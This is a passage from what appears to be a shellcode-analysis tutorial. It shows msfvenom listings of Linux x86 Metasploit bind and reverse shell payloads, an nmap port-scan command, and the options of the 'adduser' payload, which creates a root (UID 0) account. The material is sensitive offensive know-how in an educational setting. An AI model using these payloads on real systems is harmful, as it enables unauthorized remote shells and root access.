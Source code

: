 ```sh
    linux/x86/shell/bind_tcp_uuid                       Spawn a command shell (staged). Listen for a connection with UUID Support (Linux x86)
    linux/x86/shell/find_tag                            Spawn a command shell (staged). Use an established connection
    linux/x86/shell/reverse_ipv6_tcp                    Spawn a command shell (staged). Connect back to attacker over IPv6
    linux/x86/shell/reverse_nonx_tcp                    Spawn a command shell (staged). Connect back to the attacker
    linux/x86/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
    linux/x86/shell/reverse_tcp_uuid                    Spawn a command shell (staged). Connect back to the attacker
    linux/x86/shell_bind_ipv6_tcp                       Listen for a connection over IPv6 and spawn a command shell
    linux/x86/shell_bind_tcp                            Listen for a connection and spawn a command shell
    linux/x86/shell_bind_tcp_random_port                Listen for a connection in a random port and spawn a command shell. Use nmap to discover the open port: 'nmap -sS target -p-'.
    linux/x86/shell_find_port                           Spawn a shell on an established connection
    linux/x86/shell_find_tag                            Spawn a shell on an established connection (proxy/nat safe)
    linux/x86/shell_reverse_tcp                         Connect back to attacker and spawn a command shell
root@ubuntu:~#
```

Shellcode I
-----------
The first shellcode we’ll look at is `adduser`, the following are the options needed by the payload.

```sh
root@ubuntu:~# msfvenom -p linux/x86/adduser --payload-options
Options for payload/linux/x86/adduser:


       Name: Linux Add User
     Module: payload/linux/x86/adduser
   Platform: Linux
       Arch: x86
Needs Admin: Yes
 Total size: 97
       Rank: Normal

Provided by:
    skape <mmiller@hick.org>
    vlad902 <vlad902@gmail.com>
    spoonm <spoonm@no$email.com>

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
PASS   metasploit       yes       The password for this user
SHELL  /bin/sh          no        The shell for this user
USER   metasploit       yes       The username to create

Description:
  Create a new user with UID 0
```
